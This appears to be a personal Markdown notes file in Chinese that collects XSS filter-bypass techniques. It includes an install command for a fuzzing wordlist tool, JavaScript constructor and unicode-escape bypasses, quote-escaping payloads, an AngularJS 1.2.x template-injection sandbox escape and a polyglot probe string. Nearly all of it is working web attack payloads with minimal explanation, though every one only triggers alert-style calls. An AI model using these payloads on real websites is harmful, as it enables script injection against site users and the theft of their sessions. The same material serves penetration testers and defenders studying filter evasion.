 # XSS

## 2021.2.13 Fuzz技巧

![image-20210213152848214](XSS.assets/image-20210213152848214.png)

非常不错,包含了xml和xss的许多payload

```
npm install -g pown
pown modules install @pown/dicts
pown dicts -p xss >  xss.doc
ls -lah xss.doc
```



基于javascript下的绕过:

原理:

```
B=1
B["constructor"]["constructor"]("alert(1)")();
```

不同语言版:https://t.co/cqmLwZmuo5?amp=1





## Bypass

![5934BE93A312FA7C13363F1A4C187775](XSS.assets/5934BE93A312FA7C13363F1A4C187775.png)







### unicode绕过checklist:

https://appcheck-ng.com/wp-content/uploads/unicode_normalization.html



![EdH22_MXsAAYcKK](XSS.assets/EdH22_MXsAAYcKK.jpeg)

```
-->'"/></sCript><deTailS open x=">" ontoggle=(co\u006efirm)``>
```





如果允许但引号逃逸,闭合可以采用运算来避免错误。

```
<, > ==> REMOVED
'-anything()-' ==> '-anything-'
'-alert()-' ==> REMOVED
'-setTimeout``-' = allowed

Final Payload:
'-setTimeout`prompt\u0028document.domain\u0029`-
```





### 双引号被转义的时候逃逸

```
<xhzeem/x=" onmouseover=eva&#x6c;?.(id+/(document.domain)/.source) id=confirm>

Works in cases where double quotes are escaped 

<xhzeem/x=\" ....>

```



## alert(1) 绕过技巧

```
window.alert?.() and (window?.alert)`` 
```



## 挖掘XSS技巧

### 组件漏洞

an AngularJS Client-Side Template Injection as XSS payload for 1.2.24-1.2.29

Payload:

```
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```



## Dorks

```
1.iconUrl=XSS
```



## 探测XSS的payload

Polyglot payload:

```
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```





## XSS相关的网站

比较安全:`https://xsshunter.com/`